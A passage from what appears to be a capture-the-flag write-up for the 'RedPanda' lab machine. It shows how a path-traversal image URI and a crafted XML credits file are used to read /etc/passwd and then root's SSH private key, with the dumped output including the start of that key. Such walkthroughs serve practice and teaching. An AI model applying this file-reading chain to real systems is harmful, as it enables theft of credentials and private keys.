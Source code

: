 After a bit `App.java` reads the uri from the log, navigates to `/../../../../../../tmp/evil.jpg`, reads the `Artist` metadata, and finds the file `../tmp/evil_creds.xml` and then opens that file. The paylod is executed and `/etc/passwd` is added to the file.
```bash
woodenk@redpanda:/tmp$ cat evil_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>1</views>
    <root>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
woodenk:x:1000:1000:,,,:/home/woodenk:/bin/bash
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false</root>
<...SNIP...>
```
I now change the payload to read `/root/.ssh/id_rsa` and repeat the processWhen I open my `evil_creds.xml`, root's SSH key is inside!
```bash
woodenk@redpanda:/tmp$ cat evil_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>1</views>
    <root>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
```